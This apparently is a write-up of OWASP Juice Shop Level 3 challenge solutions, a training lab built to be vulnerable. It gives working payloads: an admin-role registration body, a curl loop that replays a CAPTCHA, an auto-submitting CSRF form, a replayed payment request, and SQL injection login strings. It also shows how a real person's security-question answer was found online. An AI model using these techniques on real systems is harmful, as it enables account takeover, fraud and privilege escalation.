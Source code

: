 # Level 3

## Admin Registration
_Register as a user with administrator privileges._

Modify the body of the user registration request (`POST /api/Users/`) by adding `"role":"admin",`:
```
{
  "email": "admin@mail",
  "role": "admin",
  "password": "admin1",
  "passwordRepeat": "admin1",
  "securityQuestion": {
    "id": 1,
    "question": "Your eldest siblings middle name?",
    "createdAt": "2020-08-13T14:12:54.775Z",
    "updatedAt": "2020-08-13T14:12:54.775Z"
  },
  "securityAnswer": "Whatever"
}
```

## Bjoern's Favorite Pet
_Reset the password of Bjoern's OWASP account via the Forgot Password mechanism with the original answer to his security question._

Google for `bjoern kimminich cat name`.
One of the sources is this YouTube video https://www.youtube.com/watch?v=Lu0-kDdtVf4 (4:20).

The pet's name is `Zaya`

## CAPTCHA Bypass
_Submit 10 or more customer feedbacks within 10 seconds._

CAPTCHA is broken. The computation result is bound to `captchaId`.
We can simply bypass it by sending the same id and the same result over and over again. 

Bash script to send the request 10 times:
```
BEARER='eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..'
for i in {1..10}
do
    curl -i -X POST \
        -H 'Content-Type: application/json' \
        -H "Authorization: Bearer $BEARER" \
        --data '{"captchaId":0,"captcha":"24","comment":"AAA (anonymous)","rating":3}' \
        https://vernjan-juice-shop.herokuapp.com/api/Feedbacks/
done
```

## CSRF
_Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/)._

This **no longer works in modern web browsers**.

The idea is to craft a form similar to this:
```
<form action="YOUR_URL/profile" method="POST">
  <input type="text" id="username" name="username" value="John">
  <input type="submit" value="Submit">
</form> 
<script>document.forms[0].submit();</script>
```

## Deluxe Fraud
_Obtain a Deluxe Membership without paying for it._

Log in as a standard customer (not admin) and pay for the Deluxe membership (in top left menu).

This is the important request:
```
POST YOUR_URL/rest/deluxe-membership
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..
Content-Type: application/json

{"paymentMode":"card"}
```

The trick is to use a payment method you _don't really have_. For example, create a new user
(do not add any payment cards) and replay this exact request (just update the `Authorization` header).

## Login Bender
_Log in with Bender's user account._

The same as [Login Jim](#login-jim) challenge.

## Login Jim
_Log in with Jim's user account._

We need two things: email and password

Email is easy. Once you have the admin access, you can see it in _Administration_. It's `jim@juice-sh.op`.

To bypass the password check, we can use a simple SQL injection:
`jim@juice-sh.op';` or `jim@juice-sh.op'--`